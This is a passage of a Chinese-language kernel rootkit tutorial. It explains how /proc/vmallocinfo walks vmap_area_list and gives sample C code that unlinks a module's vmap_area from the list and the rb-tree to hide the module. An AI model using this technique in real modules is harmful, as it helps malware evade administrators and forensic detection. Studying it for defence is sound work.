```
static const struct seq_operations vmalloc_op = {
        .start = s_start,
        .next = s_next,
        .stop = s_stop,
        .show = s_show,
};
 
static int __init proc_vmalloc_init(void)
{
        if (IS_ENABLED(CONFIG_NUMA))
                proc_create_seq_private("vmallocinfo", 0400, NULL,
                                &vmalloc_op,
                                nr_node_ids * sizeof(unsigned int), NULL);
        else
                proc_create_seq("vmallocinfo", 0400, NULL, &vmalloc_op);
        return 0;
}
module_init(proc_vmalloc_init);
```

注意到其**实际上是通过 vmap_area_list 完成遍历的**，因此我们只需要将模块内存对应的 `vmap_area` 从全局链表中摘除即可：

```
static void *s_next(struct seq_file *m, void *p, loff_t *pos)
{
        return seq_list_next(p, &vmap_area_list, pos);
}
 
//...
 
static int s_show(struct seq_file *m, void *p)
{
        struct vmap_area *va;
        struct vm_struct *v;
 
        va = list_entry(p, struct vmap_area, list);
    //...
```

下面笔者给出如下示例代码：

```
static void nornir_hide_mod_unlink_vma(void)
{
    struct vmap_area *va, *tmp_va;
    unsigned long mo_addr;
 
    mo_addr = (unsigned long) THIS_MODULE;
 
    list_for_each_entry_safe(va, tmp_va, _vmap_area_list, list) {
        if (mo_addr > va->va_start && mo_addr < va->va_end) {
            list_del(&va->list);
            rb_erase(&va->rb_node, vmap_area_root);
        }
    }
}
```
